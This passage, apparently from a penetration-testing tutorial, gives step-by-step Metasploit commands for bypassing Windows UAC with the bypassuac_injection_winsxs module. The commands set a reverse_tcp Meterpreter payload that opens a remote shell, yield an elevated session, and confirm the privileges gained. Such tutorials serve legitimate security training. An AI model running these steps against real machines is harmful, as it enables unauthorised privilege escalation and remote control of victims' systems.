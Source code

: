     ![search bypassuac output](search-bypassuac-output.png "search bypassuac output")

1. We can now load the bypass UAC module by running the following command:

        use module exploit/windows/local/bypassuac_injection_winsxs

1. After loading the module, we will need to configure the module options, this can be done by running the following commands:

        set payload windows/x64/meterpreter/reverse_tcp
        set target Windows x64
        set SESSION <SESSION-ID>

1. After configuring the module options, we can now execute the module by running the following command:

        run

1. If successful, the module will send the meterpreter stage to the target and you should receive an elevated meterpreter session as shown in the following screenshot.

    ![Metasploit elevated meterpreter session](metasploit-elevated-meterpreter-session.png "Metasploit elevated meterpreter session")

1. We can confirm that we have an elevated session by listing out the Windows privileges for our current user, this can be done by running the following command in meterpreter:

        getprivs
